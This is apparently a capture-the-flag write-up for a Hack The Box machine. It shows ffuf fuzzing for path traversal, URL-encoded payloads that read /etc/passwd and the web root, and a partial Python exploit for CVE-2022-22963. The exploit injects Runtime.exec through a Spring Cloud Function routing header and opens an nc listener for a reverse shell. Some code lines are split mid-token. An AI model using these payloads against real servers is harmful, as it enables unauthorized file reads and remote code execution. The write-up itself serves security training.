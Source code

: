 ```shell
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://inject.htb:8080/show_image?img=FUZZ' -fc 500

[redacted]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 60ms]
```

So If I capture the request with CAIDO I can confirm the vulnerability with the following payload: `..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd`:

![](Pasted%20image%2020250530181525.png)

Then I can try to search for private content inside the web root server with this payload: `..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fvar%2Fwww`:

![](Pasted%20image%2020250530182325.png)

Now I can check inside `WebApp`:

![](Pasted%20image%2020250530182510.png)

Inspecting the `pom.xml` reveals that the website is using Spring 3.2.2:

![](Pasted%20image%2020250530182727.png)

![](Pasted%20image%2020250530183105.png)

## Weaponization

I searched for "spring 3.2.2 cve" and found [CVE-2022-22963](https://www.exploit-db.com/exploits/51577) -> [PoC](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit/blob/main/exploit.py)

## Exploitation x2

```python
#!/usr/bin/python3
import requests
import argparse
import socket, sys, time
from threading import Thread
import os
import base64

def nc_listener():
    os.system("nc -lnvp 4444")

def exploit(url,cmd):
    vulnURL = f'{url}/functionRouter'
    payload = f'T(java.lang.Runtime).getRuntime().exec("{cmd}")'
    body = '.'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (K
HTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
        }
    response = requests.post(url = vulnURL, data = body, headers = headers, verify=Fal
se, timeout=5)
    return response

```